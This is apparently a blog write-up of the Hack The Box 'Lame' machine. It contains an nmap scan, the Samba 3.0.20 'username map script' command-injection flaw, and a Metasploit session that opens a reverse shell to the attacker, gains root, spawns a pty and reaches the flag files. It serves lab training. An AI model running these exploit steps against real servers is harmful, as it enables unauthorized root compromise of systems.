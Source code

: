 ```yaml
---
layout: post
title: LAME(HTB)
categories:
  - Writeup
---
```

<br>OS Linux
<br>IP: 10.10.10.3
<br>Machine Author: ch4p

**Nmap** :-
<font size="1">
<div style="height:400px;width:800px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -A -O 10.10.10.3
<br>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-16 18:17 EST
<br>Nmap scan report for 10.10.10.3
<br>Host is up (0.16s latency).
<br>Not shown: 996 filtered ports
<br>PORT STATE SERVICE VERSION
<br><font color="BB69EC">21/tcp</font> open <font color="53E100">ftp vsftpd 2.3.4</font>
<br>|_ftp-anon: <font color="53E100">Anonymous FTP login allowed</font> (FTP code 230)
<br><font color="BB69EC">22/tcp</font> <font color="53E100">open ssh OpenSSH 4.7p1</font> Debian 8ubuntu1 (protocol 2.0)
<br>| ssh-hostkey:
<br>| 1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
<br>|_ 2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
<br><font color="BB69EC">139/tcp</font> open netbios-ssn <font color="53E100">Samba smbd 3.X - 4.X</font> (workgroup: WORKGROUP)
<br><font color="BB69EC">445/tcp</font> open netbios-ssn <font color="53E100">Samba smbd 3.0.20-Debian</font> (workgroup: WORKGROUP)
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Aggressive OS guesses: OpenWrt White Russian 0.9 (Linux 2.4.30) (92%), Arris TG862G/CT cable modem (92%), Dell Integrated Remote Access Controller (iDRAC6) (92%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (92%), Linux 2.4.21 - 2.4.31 (likely embedded) (92%), Linux 2.4.27 (92%), Linux 2.6.22 (92%), Linux 2.6.8 - 2.6.30 (92%), Dell iDRAC 6 remote access controller (Linux 2.6) (92%), Supermicro IPMI BMC (Linux 2.6.24) (92%)
<br>No exact OS matches for host (test conditions non-ideal).
<br>Network Distance: 2 hops
<br>Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
<br>Host script results:
<br>| smb-os-discovery:
<br>| OS: <font color="53E100">Unix (Samba 3.0.20-Debian)</font>
<br>| NetBIOS computer name:
<br>| Workgroup: WORKGROUP\x00
<br>|_ System time: 2017-12-13T13:56:42-05:00
<br>TRACEROUTE (using port 22/tcp)
<br>HOP RTT ADDRESS
<br>1 164.82 ms 10.10.*.*
<br>2 164.95 ms 10.10.10.3
<br>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 84.01 seconds</p>
</div>
</font>


<br>**Vulnerabilty**:- _Samba 3.0.20_

<br>**Vulnerabilty Description**:- This module exploits a command execution vulnerability in Samba versions 3.0.20 through 3.0.25rc3 when using the non-default "username map script" configuration option. By specifying a username containing shell meta characters, attackers can execute arbitrary commands. No authentication is needed to exploit this vulnerability since this option is used to map usernames prior to authentication!

<br>**Exploit**:- [_Samba "username map script" Command Execution_](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script)
 
**POC**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>msf > use exploit/multi/samba/usermap_script
<br>msf exploit(<font color="red">usermap_script</font>) > set RHOST 10.10.10.3
<br>RHOST => 10.10.10.3
<br>msf exploit(<font color="red">usermap_script</font>) > exploit

<br><font color="RoyalBlue">[*]</font> Started reverse TCP double handler on 10.10.*.*:4444</font> 
<br><font color="RoyalBlue">[*]</font> Accepted the first client connection...
<br><font color="RoyalBlue">[*]</font> Accepted the second client connection...
<br><font color="RoyalBlue">[*]</font> Command: echo UTiuwW6uLQ5WcJXz;
<br><font color="RoyalBlue">[*]</font> Writing to socket A
<br><font color="RoyalBlue">[*]</font> Writing to socket B
<br><font color="RoyalBlue">[*]</font> Reading from sockets...
<br><font color="RoyalBlue">[*]</font> Reading from socket B
<br><font color="RoyalBlue">[*]</font> B: "UTiuwW6uLQ5WcJXz\r\n"
<br><font color="RoyalBlue">[*]</font> Matching...
<br><font color="RoyalBlue">[*]</font> A is input...
<br><font color="RoyalBlue">[*]</font> Command shell session 1 opened <font color="53E100">(10.10.*.*:4444 -> 10.10.10.3:57285)</font> at 2017-12-16 22:55:59 -0500

<br>id
<br>uid=<font color="53E100">0(root)</font> gid=<font color="53E100">0(root)</font></p>
</div>
</font>

Now we have a non-interactive root shell, anyway It's optional if you really want a tty shell or not for this situation atleast and after that we are good to go and read the user and root flags.

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="53E100">python -c 'import pty;pty.spawn("/bin/bash")'</font>
<br>root@lame:/# cd /home
<br>cd /home
<br>root@lame:/home# ls
<br>ls
<br><font color="RoyalBlue">ftp  makis  service  user</font>
<br>root@lame:/home# cd makis
<br>cd makis
<br>root@lame:/home/makis# ls
<br>ls
<br>user.txt
<br>root@lame:/home/makis# cat user.txt
<br>root@lame:/home/makis# cd /root
<br>cd /root
<br>root@lame:/root# ls
<br>ls
<br><font color="RoyalBlue">Desktop</font>  <font color="53E100">reset_logs.sh</font>  root.txt  vnc.log
<br>root@lame:/root# cat root.txt</p>
</div>
</font>

[Twitter](https://twitter.com/Teck__K2) / [Hack The Box](https://www.hackthebox.eu/profile/966) / [CTF Team](https://ctftime.org/team/20102) /
[Teck_N00bs Community Telegram](https://t.me/Teck_N00bs)

<script src="https://www.hackthebox.eu/badge/966"> </script>
